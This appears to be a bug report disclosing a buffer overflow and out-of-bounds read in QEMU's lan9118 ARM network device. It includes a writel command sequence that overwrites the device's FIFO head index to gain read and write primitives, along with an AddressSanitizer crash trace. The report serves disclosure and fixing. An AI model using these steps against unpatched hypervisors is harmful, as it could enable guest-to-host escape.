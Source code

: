 # Out of bounds read in lan9118

# Buffer overflow and out-of-bounds read in lan9118 NIC for ARM

There is a buffer overflow in tx_fifo_push in lan9118 NIC for ARM causing an
out-of-bounds read of tx_status_fifo. The write and read primitives are so
powerful that they can likely be abused to escape the VM.

## Read primitive
In tx_status_fifo_pop, there is an out-of-bounds read at the line:
val = s->tx_status_fifo[s->tx_status_fifo_head];
because there is an overwrite of s->tx_status_fifo_head.

Security Impact: because s->tx_status_fifo_head is int32, so this read primitive
seems powerful.

## Buffer overflow and the write primitive

In tx_fifo_push, there are three states for tx_fifo: TX_IDLE, TX_B, TX_DATA.
However, because of the lack of the check of s->txp->len, we can visit
TX_IDLE->TX_B->TX_DATA many times to overflow s->txp->data whose size is only
2048 then overwrite s->tx_status_fifo_head.

This can be done like below. (Suppose the hardware address of lan9118 is 0x5000000.)

First, the max size of the buffer you can write once is 0x800. The pattern is in
the following.

	writel 0x5000020 0x800 // 0x800 bytes buffer you’d like to write
	writel 0x5000020 0x0
	writel 0x5000020 0x0 … (0x200 times) // issue 0x800 / 4 times

Second, repeat the first step (change the size of the buffer you’d like to
write) and reach where you’d like to overwrite.

```
    LAN9118Packet tx_packet;     // last field: data[2048]
    int32_t tx_status_fifo_used;
    int32_t tx_status_fifo_head; // overwrite this
    uint32_t tx_status_fifo[512];
```

If I’d like to overwrite tx_status_fifo_head, then I should issue instructions
in the following.

writel 0x5000020 0x8
writel 0x5000020 0x0
writel 0x5000020 0xaabbccdd // overwrite tx_status_fifo_used
writel 0x5000020 0xddccbbaa // overwrite tx_stats_fifo_head

Security Impact: Because we can repeat the first step without limit, this write
primitive seems very powerful.


## More details

### Hypervisor, hypervisor version, upstream commit/tag, host

qemu, 6.1.50, c52d69e7dbaaed0ffdef8125e79218672c30161d, Ubuntu 18.04

### VM architecture, device, device type

arm, lan9118, net

### Bug Type: Out-of-bounds Read

### Stack traces, crash details

```
AddressSanitizer:DEADLYSIGNAL
=================================================================
==426==ERROR: AddressSanitizer: SEGV on unknown address 0x62cf773fa008 (pc 0x561e8635387a bp 0x7fff71ca92a0 sp 0x7fff71ca9260 T0)
==426==The signal is caused by a READ memory access.
    #0 0x561e8635387a in tx_status_fifo_pop /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11
    #1 0x561e86352b79 in lan9118_readl /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:1249:16
    #2 0x561e86aea48c in memory_region_read_accessor /root/qemu/build-oss-fuzz/../softmmu/memory.c:442:11
    #3 0x561e86ad2895 in access_with_adjusted_size /root/qemu/build-oss-fuzz/../softmmu/memory.c:552:18
    #4 0x561e86ad2895 in memory_region_dispatch_read1 /root/qemu/build-oss-fuzz/../softmmu/memory.c:1422:16
    #5 0x561e86ad2895 in memory_region_dispatch_read /root/qemu/build-oss-fuzz/../softmmu/memory.c:1450:9
    #6 0x561e86971a83 in flatview_read_continue /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2810:23
    #7 0x561e86a2cf0a in address_space_read /root/qemu/include/exec/memory.h:2518:26
    #8 0x561e86a2cf0a in qtest_process_command /root/qemu/build-oss-fuzz/../softmmu/qtest.c:568:13
    #9 0x561e86a2cf0a in qtest_process_inbuf /root/qemu/build-oss-fuzz/../softmmu/qtest.c:797:9
    #10 0x561e86c15d5b in fd_chr_read /root/qemu/build-oss-fuzz/../chardev/char-fd.c:68:9
    #11 0x7f0e3bfa23a4 in g_main_context_dispatch (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4c3a4)
    #12 0x561e8707e8e7 in glib_pollfds_poll /root/qemu/build-oss-fuzz/../util/main-loop.c:231:9
    #13 0x561e8707e8e7 in os_host_main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:254:5
    #14 0x561e8707e8e7 in main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:530:11
    #15 0x561e86b38138 in qemu_main_loop /root/qemu/build-oss-fuzz/../softmmu/runstate.c:725:9
    #16 0x561e85ac86a5 in main /root/qemu/build-oss-fuzz/../softmmu/main.c:50:5
    #17 0x7f0e3ada2bf6 in __libc_start_main /build/glibc-S9d2JN/glibc-2.27/csu/../csu/libc-start.c:310
    #18 0x561e859ef589 in _start (/root/qemu/build-oss-fuzz/qemu-system-arm+0x1108589)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11 in tx_status_fifo_pop
==426==ABORTING
```

## Contact

Let us know if I need to provide more information.
